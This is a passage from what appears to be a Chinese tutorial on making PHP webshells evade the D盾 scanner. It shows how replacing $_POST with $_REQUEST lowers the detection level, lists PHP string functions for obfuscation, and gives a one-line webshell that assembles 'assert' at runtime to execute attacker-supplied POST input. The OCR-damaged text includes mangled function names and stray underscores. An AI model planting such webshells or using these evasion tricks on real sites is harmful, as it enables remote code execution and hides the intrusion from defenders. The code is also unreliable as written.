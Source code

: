 
`例如将`$_POST`替换为`$_`REQUEST`_


![2020%2003%2018%2022%2001%20{second.png](../post_images/52f0ad15f624153831e310786af7ddc4.png)


虽然D盾还是检测出来为后⻔，但是级别已经降低了为4级，可⻅D盾对`POST`更为敏感，这⾥显然不能免杀，但是可以作为⼀种思路来配合后续的其它⽅法免杀。


### 字符串变形


php造作字符串的函数有：


```php
_ucwords() //函数把字符串中每个单词的⾸字符转换为⼤写。
ucfirst() //函数把字符串中的⾸字符转换为⼤写。
trim() //函数从字符串的两端删除空⽩字符和其他预定义字符。
substrreplace() //函数把字符串的⼀部分替换为另⼀个字符串
substr() //函数返回字符串的⼀部分。
strtr() //函数转换字符串中特定的字符。
strtoupper() //函数把字符串转换为⼤写。
strtolower() //函数把字符串转换为⼩写。
strtok() //函数把字符串分割为更⼩的字符串
strrot13() //函数对字符串执⾏ ROT13 编码。_


```


通过字符串函数对关键字`assert`和_`$POST`_进⾏变形，如：


```php
_<?php
$a = substrreplace("assexx","rt",4);_
$a($_POST['x']);
?>_

```


![2020%2003%2018%2022%2004%20{second.png](../post_images/7503494a517ea452b43fbdff52a4436b.png)
